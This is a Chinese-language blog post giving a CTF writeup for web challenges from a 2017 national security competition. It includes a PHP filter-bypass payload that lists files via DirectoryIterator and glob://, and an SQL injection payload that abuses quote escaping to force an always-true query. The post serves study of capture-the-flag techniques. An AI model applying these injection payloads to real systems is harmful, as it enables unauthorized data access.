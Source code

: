 ```yaml
---
title: 第十届信息安全国赛 Web MISC writeup
date: 2017-07-11 02:14:01
tags:
- Blogs
- ctf
- sqli
categories:
- Blogs
---
```



周末花了一整天的打国赛技能赛的线上赛，去年比赛没能进入线下，当时就是因为感觉选手之间py太严重，今年没想到又遇到了这样的问题，所幸的是，今年运气比较好，做出来的题目比较多，所以py没有太过影响到我们。

下面就奉上web和misc的writeup，就我个人看的话，题目虽然不够新颖，但质量已经算是中上了，所谓的抄袭不知道是不是我见识短浅，就我个人看来都是比较正常的思路，xss可能抄袭了一个sandbox吧，感觉对题目本身没有太大的影响。



# web #

## php ##
挺有趣的一题，虽然过滤很多，但是php是世界上最好的语言，能做的事情还是有很多

列目录，可以找到flag文件
```
code=$f=[];$d=new DirectoryIterator("glob:///var/www/html/f*");var_dump($d);
```
![image.png-274.5kB][1]

然后show_source可以读文件

```
<?php
$flag="flag{php_mail_ld_preload}";
?>
```

## wanna to see your hat? ##

不太喜欢的一题，通过把语句加在html的前面，让浏览器没办法解析直接看到，无聊的设计。

抓包能看到语句
```
select count(*) from t_info where username = '123' or nickname = '123'
```
简单的试了下 单引号被替换成了反斜杠，想到这样的话可以与 nickname 处的第一个引号闭合，构造一个永真语句就好了
```
name=or(1=1)%23'&submit=check

select count(*) from t_info where username = 'or(1=1)#\' or nickname = 'or(1=1)#\'good job
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png